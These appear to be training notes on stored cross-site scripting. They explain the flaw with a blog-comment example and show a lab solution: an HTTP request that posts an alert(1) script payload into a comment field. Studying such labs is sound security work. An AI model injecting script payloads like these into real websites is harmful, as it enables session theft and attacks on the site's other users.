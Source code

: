 What is stored cross-site scripting? 
Stored XSS or persistent XSS araises when an application recieves data from an untrusted source and includes that data within its later   
HTTP responses in an unsafe way. 

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP  
request like the following:

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
<p>This post was extremely helpful.</p>
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
<script>/* Bad stuff here... */</script>

Within the attacker's request, this comment would be URL-encoded as:
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E

Any user who visits the blog post will now receive the following within the application's response:
<p><script>/* Bad stuff here... */</script></p>

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application.


Lab: Stored XSS into HTML context with nothing encoded
POST /post/comment HTTP/1.1
Host: ac3a1ff01e93fd038023e57d00360025.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac3a1ff01e93fd038023e57d00360025.web-security-academy.net/post?postId=2
Cookie: session=uE2UxMTA7XRIh1tvGZfMWOgWpunGIQUZ
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

csrf=DrnM0FYX8iuxJY8DWROKokJK6svLtua9&postId=2&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=wardaddy&email=wardaddy%40localhost&website=
